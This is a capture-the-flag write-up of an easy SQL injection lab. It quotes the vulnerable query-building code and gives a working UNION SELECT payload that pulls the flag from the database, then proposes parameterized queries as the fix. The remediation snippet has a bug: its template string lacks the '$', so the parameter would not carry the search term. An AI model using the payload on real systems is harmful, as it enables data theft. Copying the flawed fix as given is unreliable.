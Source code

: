 # Unholy Union
- difficulty: very easy
- vulnerabilities: sqli

## App Review
This super simple app is a self proclaimed inventory manager.  It provides an input box where a user can type in a search term.  Clicking the searh button sends the search phrase to the backend which returns results should they exist.  The lower half of the page provides the exact SQL statement the the search phrase gets put into as well as the exact JSON response from the backend.

## Code Review
The app is obviously geared towards developing SQL injection skills since it contains the SQL query within the frontend UI.  Although its pretty easy to figure out what's going on it is still worthwhile looking at the code to gaina better understanding of how SQL injection vulnerabilities occur.  The vulnerability occurs in the block of code below where userinput, ```query```, is placed directly into the SQL statement without any sanitization.

```
// filename: src/index.js

if (query === "") {
      sqlQuery = "SELECT * FROM inventory";
    } else {
      sqlQuery = `SELECT * FROM inventory WHERE name LIKE '%${query}%'`;
    }
```

## Attack
Looking at the entrypoin.sh file I can see tha the flag gets inserted into flag table of the backend db.
```
# filename: entrypoint.sh

INSERT INTO flag(flag) VALUES("$(cat /flag.txt)");
```
This means the main idea here is to use the SQL injection vulnerability to leak the only entry in the flag table.  The easiest way to do this is to use a union statement to turn the itnended query into the one below.
```
SELECT * FROM inventory WHERE name LIKE '%XXXXXXXXX' union select 1, 'myName', 'myDescription', 'myOrigin', flag from flag-- asdasd'
```
To accomplish this I use the input below.
```
XXXXXXXXX' union select 1, 'myName', 'myDescription', 'myOrigin', flag from flag-- asdasd
```
Going into a bit more detail:
- ```XXXXXXXXX'``` is used to prevent any results being returned due to the initial query.  In other words, just show a single result with the flag.
- ```select 1, 'myName', 'myDescription', 'myOrigin', flag``` The union select must contain 5 columns returned in the result to make the query valid.  Since the initial select query returns 5 columns the union select must also return 5 columns.
## Remediation
This issue can be resolved by using parameterized queries.  I have provided a snippet of code below from src/index.js that utilizes parameterized queries to resolve the issue.
```
// filename: src/index.js

if (query === "") {
    sqlQuery = "SELECT * FROM inventory";
} else {
    sqlQuery = "SELECT * FROM inventory WHERE name LIKE ?";
}

params = [`%{query}%`];

const [rows] = await pool.query(sqlQuery, params);
```